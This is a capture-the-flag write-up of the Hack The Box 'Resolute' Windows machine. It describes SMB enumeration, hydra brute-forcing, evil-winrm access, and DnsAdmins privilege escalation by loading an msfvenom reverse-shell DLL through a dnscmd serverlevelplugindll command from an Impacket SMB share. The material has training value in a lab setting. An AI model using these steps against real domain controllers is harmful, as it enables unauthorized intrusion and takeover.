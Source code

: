 ```yaml
---
layout: single
title: Resolute write-up
excerpt: "Resolute was a medium level Windows computer that included a list of users and login discoveries for the SMB system. This password has been pulsed into the SMB login via hydra to the usernames identified. The listing of the privilege escalation led us to another member of the DnsAdmins group. Then, by violating his admin's right to charge the DLL injection to obtain the Admin shell."
date: 2020-05-31
classes: wide
header:
  teaser: /asset/htbwriteup/windows/resolute/intro.PNG
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories:
  - hackthebox
permalink: /htb/htbResolute
tags: [dll injection, dnscmd.exe, smbserver.py]

---
```


# HTB - Resolute

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/intro.PNG)

Resolute was a medium level Windows computer that included a list of users and login discoveries for the SMB system. This password has been pulsed into the SMB login via hydra to the usernames identified. The listing of the privilege escalation led us to another member of the DnsAdmins group. Then, by violating his admin's right to charge the DLL injection to obtain the Admin shell.

---
## Recon

- Running nmap scan give us the following information as below.
    
![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/1.png)

- As windows machine, the interesting part of course the SMB services, let's digging in via enum4linux.
- Don't forget to list all the potential accounts in the recon part. It's helping us to move further you know...
- Here, we have hint on `marko` account. See the description there. `Password set to Welcome123!`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/2.png)

- Trying to log into `marko` account doesn't work. The credential may be wrong.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/3.png)

- We have the list of usernames right? Let's try brute-force the smb login with `hydra`.
- Yayy, we have the right credential for `melanie` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/4.png)

---
## Exploit

- Nmap scan showed that port 5985 is open. It's the default port for WinRM so catch the user flag by logging in via `evil-winrm` to melanie account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/5.png)

- After enumerating the host, we don't meet any hint. Maybe by viewing hidden files give us hint? Let's `dir-Force` and enum for hidden file of `PSTranscripts`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/6.png)

- In the `PSTranscripts` folder, we have a text file with Resolute name on it. Open the text file, give us hint of `Powershell` script with a potential credential of `ryan` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/7.png)

- Then, moving into `ryan` account and see what we can do there.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/8.png)

---
## Privilege escalation

### First method:

- On `ryan` desktop, there is a `note.txt` as below. What does that mean??

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/9.png)

- Enum for the groups information reveal us that ryan has `DnsAdmins` privilege. 
- If the account has `DNSAdmins` in it’s group memberships, then the user belongs to the group and we can abuse his membership to escalate to Administrator rights.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/11.png)

- Based on this [article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2), we are launching an arbitrary DLL of SYSTEM authority on a DNS server. i.e., we must create a DLL that contains the reverse tcp code and implant it into the `dns.exe` process on the victim's DNS server (DC).
- Building our DLL `shell_reverse_tcp` payload with `msfvenom` and output to `privesc.dll`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/12.png)

### Impacket’s smb server to the rescue:

- Hosting our payload with `smbserver.py`.
- We chose this as, in most cases, Windows allows UNC paths and samba shares by default. Also, there are times when the victim's AV or Defender can delete the payload if it's uploaded, so we'll stick to the smb server for this one. Nonetheless, working with smb can be difficult on * nix, but thankfully, we have scripts that can make the task a lot simpler. We must use the Impacket smb server to host our payload.

sudo python smbserver.py <**shareName**> <**path/of/share**> eg `sudo smbserver.py share ./`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/13.png)

### Injecting the DLL in dnscmd.exe into PS:

- `dnscmd.exe < FQDN of DC> /config /serverlevelplugindll \\UNC_path`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/14.png)

### Listening for connection and restarting dns if necessary:

- Stop and restart the DNS service as below... 

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/15.png)

- Listen for the connection and ... we have Administrator privilege.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/16(root).png)

### Second method:

- Using `windows/smb/psexec_psh` module straight into Admin shell.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/10(root).png)

Thanks...
